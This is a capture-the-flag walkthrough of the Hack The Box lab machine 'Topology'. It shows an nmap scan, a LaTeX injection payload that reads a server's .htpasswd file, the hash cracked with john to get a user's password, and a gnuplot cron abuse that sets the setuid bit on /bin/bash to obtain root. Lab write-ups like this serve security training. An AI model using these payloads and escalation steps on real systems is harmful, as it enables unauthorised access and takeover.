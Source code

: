 # Box: Topology
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.73.145 -v -p- -T4```

```
Nmap scan report for 10.129.73.145
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/21%OT=22%CT=1%CU=41382%PV=Y%DS=2%DC=T%G=Y%TM=653424
OS:91%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=106%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:106%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=107%GCD=1%ISR=105%TI=Z%CI=Z
OS:%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11
OS:NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE
OS:88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=4
OS:0%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=40%CD=S)

Uptime guess: 20.776 days (since Sun Oct  1 01:43:17 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   215.71 ms 10.10.14.1
2   210.92 ms 10.129.73.145

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 21 20:20:49 2023 -- 1 IP address (1 host up) scanned in 993.90 seconds
```
From the scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5e340e8a-5cd0-4205-879c-a2be90b0a64e)

This looks like a normal webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/97542b33-5dba-434a-b9a8-991f29a0b2f5)

Clicking on that,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/32907fe6-6347-4b90-91c9-fa5355ceb9b0)

Lets add the subdomain ```latex.topology.htb``` to our ```/etc/hosts``` file.

Now, we should be able to access the subdomain

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2cfdd623-abdf-43ee-a9e0-155788fa7a4b)

We have a Latex Equation Generator here. Lets exploit this



# Exploitation

I tried lots of payload before I could find the right one

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/df99ec7d-f75a-4e52-9697-6fa140685edb)

We'll be using this to read the ```.htpasswd``` file. When I did a subdomain enumeration, I found a subdomain ```dev.topology.htb```, this means its file path will be ```/var/www/dev```.

Lets read the file from this path

payload:```$\lstinputlisting{/var/www/dev/.htpasswd}$```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/725d9219-79f8-4be1-a0e5-6bc5244cf0f1)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bc5ec5e1-a447-4cc8-b0df-33c6198923dd)

nice nice, lets decrypt this hash using john

command:```john hash --wordlist=/usr/share/wordlists/rockyou.txt```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/topology]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt                 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)     
1g 0:00:00:08 DONE (2023-10-31 17:43) 0.1228g/s 122370p/s 122370c/s 122370C/s callel..cabrio97
Use the "--show" option to display all of the cracked passwords reliably
```
Since we have the usernam to be ```vdaisley```, lets ssh into the server

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9fdbe3d2-803a-401f-bbc2-976ca6459db8)

We are in. Lets go ahead and escalate our privileges




# Privilege Escalation

Running the pspy tool

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fd3236fe-12ab-44d4-993a-332a1d52e6bd)

We can see that after the process ```/bin/sh``` we find the ```gnuplot``` directory file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7bc0423c-c07e-4dd6-8afd-96aea7f9fba0)

Since this is a ```/bin/sh``` process lets try to create a ```.sh``` file, that will get executed with this process

command:```echo ‘system “chmod u+s /bin/bash”’ > /opt/gnuplot/vawulence.plt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a45f2e8c-2760-46df-8baf-c489729cf02b)

we'll wait for the process to set the "setuid" permission on the /bin/bash executable

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8ae1836a-71a7-42b3-b4aa-699765295cea)

cool cool, we can spawn root shell by running ```bash -p```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dc31b7ad-a392-4619-997a-439f1046f607)

We have successfully pwned this box😎


That will be all for today
<br><br>
[Back To Home](../../index.md)

























